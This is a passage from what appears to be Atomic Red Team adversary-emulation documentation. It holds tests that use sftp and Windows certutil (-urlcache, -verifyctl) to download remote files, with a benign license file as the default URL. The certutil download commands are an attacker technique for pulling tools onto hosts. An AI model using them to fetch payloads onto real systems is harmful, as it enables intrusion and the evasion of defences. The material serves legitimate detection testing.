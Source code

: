 #### Attack Commands: Run with `sh`!

```sh
sftp #{username}@#{remote_host}:#{remote_file} #{local_path}
```

<br/>
<br/>

## Atomic Test #7 - certutil download (urlcache)

Use certutil -urlcache argument to download a file from the web. Note - /urlcache also works!

**Supported Platforms:** Windows

**auto_generated_guid:** dd3b61dd-7bbc-48cd-ab51-49ad1a776df0

#### Inputs:

| Name        | Description              | Type | Default Value                                                                    |
| ----------- | ------------------------ | ---- | -------------------------------------------------------------------------------- |
| remote_file | URL of file to copy      | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt |
| local_path  | Local path to place file | path | Atomic-license.txt                                                               |

#### Attack Commands: Run with `command_prompt`!

```cmd
cmd /c certutil -urlcache -split -f #{remote_file} #{local_path}
```

#### Cleanup Commands:

```cmd
del #{local_path} >nul 2>&1
```

<br/>
<br/>

## Atomic Test #8 - certutil download (verifyctl)

Use certutil -verifyctl argument to download a file from the web. Note - /verifyctl also works!

**Supported Platforms:** Windows

**auto_generated_guid:** ffd492e3-0455-4518-9fb1-46527c9f241b

#### Inputs:

| Name        | Description              | Type | Default Value                                                                    |
| ----------- | ------------------------ | ---- | -------------------------------------------------------------------------------- |
| remote_file | URL of file to copy      | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt |
| local_path  | Local path to place file | path | Atomic-license.txt                                                               |
